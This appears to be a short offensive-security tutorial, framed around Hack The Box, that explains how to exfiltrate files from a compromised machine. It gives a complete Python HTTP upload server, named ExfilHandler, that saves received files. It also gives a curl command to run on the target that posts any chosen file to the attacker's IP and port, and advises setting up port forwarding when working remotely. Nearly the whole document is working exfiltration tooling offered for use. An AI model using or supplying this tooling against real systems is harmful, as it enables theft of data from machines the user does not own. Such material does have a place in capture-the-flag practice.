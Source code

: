 I will show you how to exfiltrate data using **curl** and a **Python script**.

This method is especially useful when you have a reverse shell on the target but no SSH access. Let’s begin!

## Mini Python Server

The following script will allow you to start a simple HTTP server on your machine to receive uploaded files:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import cgi
import os

UPLOAD_DIR = "uploads"  # Output directory name
os.makedirs(UPLOAD_DIR, exist_ok=True)

class ExfilHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_type = self.headers.get('Content-Type')
        if not content_type:
            self.send_error(400, "Content-Type missing")
            return

        form = cgi.FieldStorage(
            fp=self.rfile,
            headers=self.headers,
            environ={
                'REQUEST_METHOD': 'POST',
                'CONTENT_TYPE': content_type,
            }
        )

        if "data" not in form:
            self.send_error(400, "'data' field missing")
            return

        uploaded_file = form["data"]
        if uploaded_file.filename:
            filename = os.path.basename(uploaded_file.filename)
            filepath = os.path.join(UPLOAD_DIR, filename)
            with open(filepath, 'wb') as f:
                f.write(uploaded_file.file.read())
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"File saved!\n")
            print(f"[+] Received: {filename} -> {filepath}")
        else:
            self.send_error(400, "Invalid file")

if __name__ == "__main__":
    server_address = ('', 8000)  # Change the port if needed
    httpd = HTTPServer(server_address, ExfilHandler)
    print("Server running and listening on port 8000")
    httpd.serve_forever()
```

Once you launch it, the server will be ready to receive files via **curl**.

## Exfiltration

On the target machine, run the following command:

```bash
curl -F 'data=@/path/to/file' http://ip:port
```

On HTB (Hack The Box), you’ll usually be connected to the target via VPN, so you just need to specify your machine’s IP and port.

If you’re fully remote, don’t forget to set up **port forwarding** first!